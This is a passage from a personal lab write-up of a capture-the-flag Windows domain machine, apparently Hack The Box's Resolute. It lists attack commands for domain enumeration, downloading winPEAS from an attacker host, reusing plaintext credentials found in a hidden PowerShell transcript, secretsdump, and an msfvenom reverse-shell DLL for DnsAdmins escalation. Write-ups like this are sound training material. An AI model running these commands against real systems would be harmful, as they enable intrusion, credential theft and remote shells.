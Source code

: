 
```
bloodhound-python -d MEGABANK.local -u melanie -p 'Welcome123!' -ns 10.10.10.169 -c all
```
![[Pasted image 20240506061911.png]]

Winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506062115.png]]

```
crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
```

So my intuition was right there is something hidden and i can smell it but don't know the command for it.
```
dir -Force
```

![[Pasted image 20240506070133.png]]

![[Pasted image 20240506070800.png]]

PS Transcripts seems fishy to meeeeeeeeeeeee 
And the interesting thing is that file is hidden again
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
![[Pasted image 20240506071315.png]]

Let's peak into the file and see if we can get some thing interesting from it
User
```
ryan
```

Password
```
Serv3r4Admin4cc123!
```

![[Pasted image 20240506071656.png]]


Let's evil-winrm and see the group and what we can do with it and the privileges we have
```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
```
![[Pasted image 20240506071911.png]]

```
secretsdump.py MEGABANK.LOCAL/ryan:'Serv3r4Admin4cc123!'@10.10.10.169
```
It didn't worked

![[Pasted image 20240506072229.png]]

So the group that stands out is DnsAdmins
![[Pasted image 20240506072623.png]]

https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b

Reverse DLL
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o rev.dll LHOST=10.10.16.20 LPORT=9999
```
![[Pasted image 20240506081507.png]]

We have to use LOLbins
https://lolbas-project.github.io/

![[Pasted image 20240506081837.png]]

